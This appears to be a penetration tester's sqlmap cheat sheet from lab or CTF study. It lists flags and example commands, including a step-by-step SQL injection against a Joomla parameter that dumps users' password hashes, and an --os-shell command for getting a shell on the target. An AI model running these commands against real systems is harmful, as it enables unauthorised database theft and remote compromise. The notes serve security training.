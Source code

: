 ## SQL map
```
git clone --depth 1 <https://github.com/sqlmapproject/sqlmap.git> sqlmap-dev
```
Command
--url
Provide URL for the attack

--dbms
Tell SQLMap the type of database that is running

--dump
Dump the data within the database that the application uses

--dump-all
Dump the ENTIRE database

--batch
SQLMap will run automatically and won't ask for user input

### Example commands
```
sqlmap --url http://tbfc.net/login.php --tables --columns

sqlmap -r newsanta  --tamper=space2comment --dump-all --dbms sqlite 

```

- Dump all DB
```
  sqlmap -r request.txt --dbms=mysql --dump
```

#### Example working through DB
```
Initial scan
sqlmap -u "http://$TGT/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

Find tables in database joomla:
sqlmap -u "http://$TGT/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomla

Find columns in table:	-T '#__users'
sqlmap -u "http://$TGT/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --columns -D joomla -T '#__users'

+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| name     | non-numeric |
| params   | numeric     |
| password | non-numeric |
| username | non-numeric |
+----------+-------------+

Finally dump the data:
sqlmap -u "http://$TGT/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -C password -D joomla -T "#__users" --dump
```

###  With Burpsuite
Send request to Burp then the repeater
RIght click and save item in repeater or proxy.

```
sqlmap -r filename
```

### Spawn shell
```
sqlmap -r reqFile --os-shell
```
Look to [[Reverse Shell#Shell Stabalisation|stabalise shell with python]] afterwards